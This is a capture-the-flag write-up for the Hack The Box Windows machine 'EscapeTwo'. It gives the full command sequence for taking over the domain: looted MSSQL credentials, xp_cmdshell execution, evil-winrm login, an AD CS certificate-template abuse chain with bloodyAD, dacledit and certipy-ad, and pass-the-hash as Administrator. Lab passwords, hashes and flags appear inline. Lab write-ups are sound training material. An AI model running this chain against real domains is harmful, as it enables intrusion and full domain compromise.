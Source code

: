 ```yaml
---
sticker: emoji//0032-fe0f-20e3
---
```


# ESCAPETWO

## ENUMERATION

***

### OPEN PORTS

***

| IP ADDRESS  |
| ----------- |
| 10.10.11.51 |

| PORT     | SERVICE      |
| -------- | ------------ |
| 53/tcp   | domain       |
| 88/tcp   | kerberos-sec |
| 135/tcp  | msrpc        |
| 139/tcp  | netbios-ssn  |
| 389/tcp  | ldap         |
| 445/tcp  | microsoft-ds |
| 464/tcp  | kpasswd5     |
| 593/tcp  | ncacn\_http  |
| 636/tcp  | ssl/ldap     |
| 1433/tcp | ms-sql-s     |
| 3268/tcp | ldap         |
| 3269/tcp | ssl/ldap     |
| 5985/tcp | http         |

We got a lot of open ports, this is a Windows machine, let's start reconnaissance.

## RECONNAISSANCE

***

At first, we are already given some credentials:

```ad-note

`rose`:`KxEPkKe6R8su`
```

We can start with some basic SMB enumeration:

```ad-hint
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114171402.png)
We got a few shares, most interesting one would be `Accounting Deparment` one, let's take a look at it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114171518.png)

We have two files, let's download them both and check the contents:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114172631.png)

Since they are zip files, we need to unzip them and review the contents:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114172708.png)

After an extensive search, we can see that `xl/sharedStrings.xml` is a file that contains credentials to `mssql`, we can connect using the `mssqlclient.py` script from [impacket](https://github.com/fortra/impacket)
```

## EXPLOITATION

***

Let's connect:

```ad-hint
##### Used
---
`mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114173718.png)

We can now begin with enumeration, for this, we can use help to check which commands are available:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114174132.png)

It seems like we can enable some sort of shell, I asked chatgpt about it and it said I must follow these steps:

1. `enable_xp_cmdshell`
2. `RECONFIGURE;`
3. `EXEC xp_cmdshell 'command';`

Once I did that, this happened:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114174247.png)
We get some sort of `RCE`, let's try to enumerate `C:\` folder:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114174329.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114174556.png)
We got an user: `ryan`, tried to check the contents but it was empty, we can follow another route, we already know we have a `SQL2019` directory, there must be a SQL configuration file we can read and get some credentials:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114174929.png)

That's right, let's read the configuration file:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114174959.png)


We got credentials for another user.
```

```ad-note
`sql_svc`:`WqSZAF6CysDQbGb3`
```

Since we also know the domain is called `SEQUEL`, we can use `evil-winrm` to log in:

![](gitbook/cybersecurity/images/Pasted%20image%2020250114193709.png)

We are unable to log with those credentials, but remember we have another user, `ryan`, let's try with that username:

![](gitbook/cybersecurity/images/Pasted%20image%2020250114193750.png)

And we're in, let's read `user.txt`:

```ad-important
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250114193939.png)

User: `1c3847c8cc30b9afd12ff6c2bc86f0db`
```

Let's begin PRIVESC.

## PRIVILEGE ESCALATION

***

For privilege escalation, we can use tools like `bloodyAD`, `dacledit.py` and `certipy-ad` (I used Kali Linux in this part), let's follow these steps:

```ad-hint
1. `python3 bloodyAD.py --host DC01.sequel.htb -d SEQUEL.HTB -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan`
2. `dacledit.py -action 'write' -rights 'FullControl' -principal ryan -target ca_svc SEQUEL.HTB/ryan:'WqSZAF6CysDQbGb3'`
3. `certipy-ad shadow auto -u ryan@SEQUEL.HTB -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc`
4. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`
5. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51`
6. `certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@SEQUEL.HTB -ns 10.10.11.51 -dns 10.10.11.51 -debug`
7. `certipy-ad auth -pfx administrator_10.pfx -dc-ip 10.10.11.51`
8. `evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'`
```

So, explanation of this PRIVESC is that we're abusing the CA:

```ad-important
- Identified that the `Certificate Authority (CA)` has a misconfiguration where a vulnerable template called `DunderMifflinAuthentication` is available. This template is part of the certificate services and allows for certain users (like `Domain Admins`) to request certificates with **elevated privileges**.
- The vulnerability identified was that `Cert Publishers` (a group with a dangerous permission set) have access to request certificates. **Cert Publishers** are not typically expected to have these rights, which opens the door for attackers.
```

With this, we are able to obtain a certificate as administrator, thus, obtaining the hash for Admin user, making us able to perform [Pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack) Like that, we can read root flag:

![](gitbook/cybersecurity/images/Pasted%20image%2020250115141448.png)

```ad-important
Root: `63404c844597a9eef0c7a440b65564a3`
```
